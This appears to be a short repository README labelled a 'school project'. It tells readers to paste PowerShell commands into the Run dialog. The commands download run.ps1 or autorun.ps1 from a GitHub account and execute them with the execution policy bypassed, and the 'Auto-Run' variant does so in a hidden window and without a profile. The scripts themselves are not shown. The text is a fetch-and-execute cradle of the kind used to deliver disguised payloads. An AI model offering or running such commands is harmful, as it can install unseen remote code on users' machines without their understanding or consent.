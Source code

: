 **How to run:**
- `Win`**+** `R`
- Paste:
```
powershell wget https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/run.ps1 -outfile run.ps1; powershell -ExecutionPolicy Bypass -File .\run.ps1
```
- `Ctrl` **+** `Sift` **+** `Enter`

**Auto-Run**
```
powershell -Sta -Nop -Window Hidden wget https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/autorun.ps1 -outfile run.ps1; powershell -Sta -Nop -Window Hidden -ExecutionPolicy Bypass -File .\run.ps1
```

